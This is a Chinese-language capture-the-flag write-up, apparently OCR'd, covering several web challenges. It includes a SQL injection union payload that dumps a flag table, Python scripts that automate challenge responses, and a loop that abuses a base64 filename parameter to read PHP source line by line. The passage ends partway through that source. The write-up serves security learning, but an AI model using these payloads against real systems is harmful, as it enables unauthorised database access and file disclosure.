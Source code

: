 ```bash
id=-1' union select 1,2,(select group_concat(skctf_flag) from fl4g),4 %23
```
# 秋名山司机

[python正则](http://www.runoob.com/python/python-reg-expressions.html)
```bash
#coding:utf-8
import requests
import re
url = 'http://120.24.86.145:8002/qiumingshan/'
s = requests.session()
txt = s.get(url)
exp = re.search(r'(\d+[+\-*])+(\d+)', txt.text).group()
#print(exp)
result = eval(exp)
post = {'value': result}
print(s.post(url, data = post).content)
```
# web 6
通过抓包可知，把返回消息头的flag的值base64两次，赋值给margin，post margin，速度要快，该flag的值是会变的，所以只能通过py实现。

```bash
#coding:utf-8
import requests
import base64
import re
url='http://120.24.86.145:8002/web6/'
s=requests.session()
header=s.get(url).headers
print(header['flag'])
base1=base64.b64decode(header['flag'])
#print(type(base1))
key=base64.b64decode(re.split(':',str(base1))[1])
data={"margin":key}
flag=s.post(url,data=data).content
print(flag)
```
# COOKIE欺骗
通过观察url，base64解密，filename,得到keys.txt。猜测文件名被base64编码传入，将index.php进行base64编码，传入，看到<?php， 注意到url中的num参数，修改一下值，发现返回值变了，猜测通过num的值，来返回index.php源码的第几行代码。写个py遍历一下
```bash
import requests
for i in range(0,50):
    url="http://120.24.86.145:8002/web11/index.php?line=%d&filename=aW5kZXgucGhw"%i
    r=requests.get(url)
    print(r.text)
```
可得源码
```bash
<?php
error_reporting(0);
$file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
$line=isset($_GET['line'])?intval($_GET['line']):0;
if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
	$file_list = array(
		'0' =>'keys.txt',
		'1' =>'index.php',
	);
if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
	$file_list[2]='keys.php';
```